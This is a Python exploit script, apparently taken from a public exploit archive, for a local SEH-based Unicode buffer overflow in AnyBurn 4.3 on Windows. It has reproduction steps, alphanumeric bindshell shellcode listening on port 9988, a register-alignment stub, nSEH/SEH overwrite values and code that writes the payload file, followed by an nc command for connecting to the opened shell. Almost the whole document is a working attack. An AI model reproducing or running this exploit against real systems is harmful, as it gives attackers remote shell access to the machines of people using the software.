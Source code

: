 EXP
---

    #!/usr/bin/env python

    # Exploit Title: AnyBurn 4.3 - Local Buffer Overflow (SEH Unicode)
    # Date: 20-12-2018
    # Exploit Author: Matteo Malvica
    # Vendor Homepage: http://www.anyburn.com/
    # Software Link : http://www.anyburn.com/anyburn_setup.exe
    # Tested Version: 4.3 (32-bit)
    # Tested on: Windows 7 x64 SP1
    # Credits: original vulnerability discovered by Achilles: https://www.exploit-db.com/exploits/46002

    # Steps to reproduce:
    # 1.- Run the python code
    # 2.- Open exploit.txt and copy its content to the clipboard
    # 3.- Open AnyBurn and choose 'Copy disk to Image'
    # 4.- Paste the content of exploit.txt into the field: 'Image file name'
    # 5.- Click 'Create Now'
    # 6.- Check with command prompt 'netstat -ano' and you should see a port listening on 9988
    # 7.- With windows firewall disabled, from another host: 'nc [remote_IP] 9988'


    # alphanumeric bindshell - port 9988, courtesy of b33f
    shellcode = (
    "PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1"
    "AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABA"
    "BAB30APB944JBKLK8CYKPM0KPQP59ZEP18RQTTKQBNP4KQBLLTK0RLTDKC"
    "BMXLOWGOZO6NQKONQ7PVLOLC13LKRNLO0GQHOLMKQY7YRL022R74KPRLP4"
    "KPBOLKQJ0TKOPSHSU7PD4OZKQ8PPPTKQ8LX4KQHO0M1ICJCOLOYTK04TKM"
    "1YFP1KONQ7P6L7QXOLMKQ7W08K0RUZTM33ML8OKCMO4SEYRQHTKPXO4KQI"
    "CQV4KLLPK4KR8MLKQHSTKKT4KKQJ0SYOTO4NDQKQK1Q0Y1JPQKOIPB8QOQ"
    "JTKMBJKTFQM38NSOBKPKPQXBWBSNRQOB4QXPLBWNFLGKO8UWHDPM1KPKPN"
    "IWTPTPPBHO9SPRKKPKOJ50P20PP0P10PP10R0S89ZLOIOYPKO9EE9XGNQ9"
    "K1CRHM2KPNGKTTIK61ZLP0V0WBH7RYKOGS7KOXU0SPWQX7GIYOHKOKOZ50"
    "SB3R7C83DZLOKK1KO8UQGTIGWS8RURN0M1QKO8URHRC2MQTKPTIK31G0WP"
    "WNQL6QZMBR9R6JBKM1VY7OTMTOLM1KQTMOTO4N096KPQ4B4PPQF0VPVOV2"
    "6PNB6R6B3QF1X3IHLOO3VKOHUTIK00NR6PFKONP38LHU7MMQPKOXUGKJPG"
    "EVBPV38G6F5GM5MKOXUOLLF3LKZCPKKIPBUM57KOWMCSBRO2JM0PSKO9EA")


    # total payload length 10000

    align = (
    "\x55"                      #push EBP - closer register to our shellcode, from where we are pivoting
    "\x6e"                      #Venetian Padding
    "\x58"                      #pop EAX
    "\x6e"                      #Venetian Padding
    "\x05\x22\x11"              #add eax,0x11002200  \
    "\x6e"                      #Venetian Padding     |> +0xB00
    "\x2d\x17\x11"              #sub eax,0x11001700  /
    "\x6e"                      #Venetian Padding
    "\x50"                      #push EAX
    "\x6e"                      #Venetian Padding
    "\xC3")                     #RETN

    nseh = "\x94\x94"           # ANSI x94 translates to Unicode 201D
    seh =  "\xb5\x4d"           # 0x004d00b5 POP POP RET in AnyBurn.exe module

    preamble = "\x58" * 47 + shellcode + "\x58" * (9197-47- len(shellcode)) + nseh + seh
    unicode_nops = "\x58" * 200
    exploit = preamble + align + unicode_nops + "\x58" * (10000 - len(preamble) - len(unicode_nops)-len(align))

    try:
        f=open("exploit.txt","w")
        print "[+] Creating %s bytes lasagna payload.." %len(exploit)
        f.write(exploit)
        f.close()
        print "[+] File created!"
    except:
        print "File cannot be created"
